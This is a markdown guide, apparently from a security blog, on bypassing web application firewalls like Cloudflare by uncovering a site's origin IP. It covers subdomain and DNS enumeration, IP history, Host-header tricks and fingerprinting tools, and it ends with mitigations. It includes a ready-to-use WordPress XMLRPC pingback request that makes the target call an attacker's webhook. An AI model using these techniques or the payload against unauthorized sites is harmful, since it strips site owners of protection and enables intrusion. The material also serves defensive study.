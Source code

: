 ```yaml
---
title: Firewall Bypassing - Databased Index
permalink: /waf-bypassing
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">

#### <ins>Vuln Type: Information Disclosure (CWE-200)</ins>

### What is a firewall?
Firewalls, or WAFs ___(Web Application Firewall)___, are filters and rules of access that serve as a sort of "gateway" to keep your website secure. Basically keeping your website safe from threats and potential vulnerabilities that could be easily exploited if you otherwise didn't have a WAF. 

The most commonly used WAF is Cloudflare, for being easy to setup and maintain. But Cloudflare isn't all that secure as people may think and your common _"top 10 best firewalls to keep your website secure"_ may suggest.

Since it is one of the easiests WAFs to setup, it is also one of the easiests WAFs to bypass if you don't know how to setup your website correctly or you just don't have full access to the things you are managing on your website, which, in most cases, can paint a bright red target on your website's back.

### What are you looking for when bypassing a firewall?

A subdomain that's not being tunnelled through the WAF or the ___origin IP___ of the website, aka: the IP behind the firewall.

The firewall itself might have its own IP, which is the case for Cloudflare. The firewall's IP is not directly accessible.

### What can a bypass leave you vulnerable to?
It depends on how much information an attacker has on your website, if they already have found a potential vulnerability and the depth of understanding they may have on your website

This can vary from a simple XSS to a full blown Remote Code Execution vulnerability.

But anyway, you're probably not here to read my personal comments on firewalls and how they can give you a false sense of security at times.

Usually the only thing stopping an attacker from gaining complete access to your website is the firewall, which if not setup correctly, can be just a glass door waiting for a brick to be thrown through it.

So,
### How to bypass WAFs?

There are multiple ways to do that, and all of them are pretty easy, given the right conditions (which are usually the case).

#### <ins>Subdomain Method</ins>

This is the easiest one since it doesn't even involve interacting directly with the target, but instead just enumerating all of the target's subdomains, along with their IP addresses. In most cases, the website will just have an unprotected IP that can be accessed directly with no real issue

|Resources|Status|Price|
|---------|------|-----|
|[subdomainfinder.c99.nl](https://subdomainfinder.c99.nl/)|✅UP|Free|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
|[Anubis (tool)](https://github.com/jonluca/Anubis)|✅UP|Free|

In some cases the server will be setup in such a way that even if the unprotected IP is accessed directly, it will still show different results from the target. In such occasions, it ___might___ mean that the IP is being shared with other hosts.
In case of the IP being shared, the discrepancy in results can be easily circumvented by setting your Host request headers as the website's URL and not the IP itself.

FOR THE SITUATION DESCRIBED ABOVE, instead of doing:
```
POST /  HTTP 1.1
Host: <Target Unprotected IP>
```

Do

```
POST /  HTTP 1.1
Host: <Target URL(Without HTTPS)>
```

That way the IP can still be accessed directly if you search it up in your searchbar, but the server will be receiving requests for the protected URL instead, thus not only rendering the website's content but also verifying that the IP in fact belongs to that URL.

___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___

#### <ins>DNS Record Method</ins>
When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.

|Resources|Status|Price|
|---------|------|-----|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[dig](https://command-not-found.com/dig)|COMMAND|Free|

#### <ins>IP History Method</ins>
This method is also pretty easy. You can just get a list of the IPs that were used by the website along time. 

|Resources|Status|Price|
|---------|------|-----|
|[viewdns.info](https://viewdns.info/)|✅UP|Free|


#### <ins>Forensics Search Method</ins>
This basically involves searching up the domain on the following websites.  

|Resources|Status|Price|
|---------|------|-----|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|

#### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).

To bypass a WAF protecting a wordpress domain, the following method is followed:

```
POST /xmlrpc.php HTTP/1.1
Host: TARGET_URL
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>WEBHOOK_UNIQUE_URL</string>
  </value>
 </param>
 <param>
  <value>
   <string>VALID_POST_FROM_TARGET</string>
  </value>
 </param>
</params>
</methodCall>
```

This is an old one but incredibly still effective!

What the attacker does is basically:

> Replace the ```TARGET_URL``` with the url of the website.

> Replace ```WEBHOOK_UNIQUE_URL``` with a webhook that will be used to catch the pingback response

> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website

> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/

|Resources|Status|Price|
|---------|------|-----|
|[webhook.site](https://webhook.site/)|✅UP|Free|

#### <ins>Fingerprinting WAFs</ins>
Fingerprinting a WAF can be done in some ways, but the main ones are by using automation tools or manually.

Doing it manually requires you to analyze the behavior of the website to certain actions you take in it, such as trying to XSS an input field or uploading a malicious file. Also analyzing response headers and cookies for clues. 

Cloudflare can be easily spotted because of the custom 'cf-*' headers it sets.

Automation tools:

|Resources|Status|Price|
|---------|------|-----|
|[SuIP.biz](https://suip.biz/)|✅UP|Free|
|[Wappalyzer](https://www.wappalyzer.com/)|✅UP (Add-On)|Free|
|[Wafw00f](https://github.com/EnableSecurity/wafw00f)|✅UP|Free|
|[Nikto](https://github.com/sullo/nikto)|✅UP|Free|

#### <ins>Mitigating Attacks</ins>
To avoid getting your website's origin IP leaked, here are some steps you could take:

- Make sure to tunnel all subdomains through your WAF.
- Do not set your website's IP as an MX IP, instead use other mailing services as MX records cannot be proxied.
- Make sure that if/when the Origin IP leaks, your code is secure enough to handle input tampering.
- Setup your server in a way that forbids a client to connect directly to the IP, hitting the client with either a 403 status or a redirect to the main page.
- Check if the 'Host' header and the requested base URL match.
- Set the backend to only accept requests from the main website. This can be done via CORS.

### <ins>Read More</ins>
[A guide to non-conventional WAF/IDS evasion techniques - By MLT](https://0x80dotblog.wordpress.com/2021/07/24/a-guide-to-non-conventional-waf-ids-evasion-techniques/)
